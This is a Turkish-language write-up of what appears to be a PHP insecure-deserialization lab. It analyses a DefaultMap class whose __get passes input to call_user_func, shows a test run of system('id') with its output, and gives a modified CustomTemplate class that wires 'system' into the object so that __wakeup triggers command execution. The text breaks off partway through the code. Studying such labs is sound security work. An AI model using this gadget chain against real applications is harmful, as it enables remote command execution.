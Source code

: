 Kodu baştan sona okuduğumuzda hedefimizin bu kısım olduğunu anlıyoruz:

```php
class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}
```

Bu kısımda kullanılan `‘call_user_func’` fonksiyonuna verdiğiniz string değer çalıştırılabilir hale gelmektedir. Yani işletim sisteminde komut çalıştırabilir hale gelirsiniz. Örneğin bir deneme yapacak olursak aşağıdaki kodun çalıştığını görebiliriz;

```php
call_user_func('system','id')
```

Output:

```php
uid=1000(ilker) gid=984(users) groups=984(users),108(vboxusers),150(wireshark),960(libvirt),961(docker),992(kvm),998(wheel)
```

![Untitled](0x0D%20e7c75cda4af14d9f8c7d57729ec14f3a/Untitled%2017.png)

Burada kaynak kodu incelediğimizde **`build_product`** fonksiyonu Deserialization zafiyeti potansiyeli taşıyan bir kısım içeriyor. **`__wakeup`** metodunda çağrıldığı için, bu fonksiyonun işleyişi kontrolsüz bir şekilde yeniden başlatılabilir ve bu da güvenlik riski oluşturabilir.

**`build_product`** fonksiyonu, **`Product`** sınıfını oluştururken **`$this->desc`** özelliğini kullanıyor. Bu, **`$desc`** özelliğinin serialize edilen veriden geri dönüştürülerek kullanılmasına olanak tanır. Eğer serialize edilen veri manipüle edilirse ve bu manipülasyon, **`__wakeup`** ve **`__sleep`** metodlarını etkilerse, **`build_product`** fonksiyonu beklenmeyen sonuçlar üretebilir.

```php
class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new DefaultMap("system");//new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
```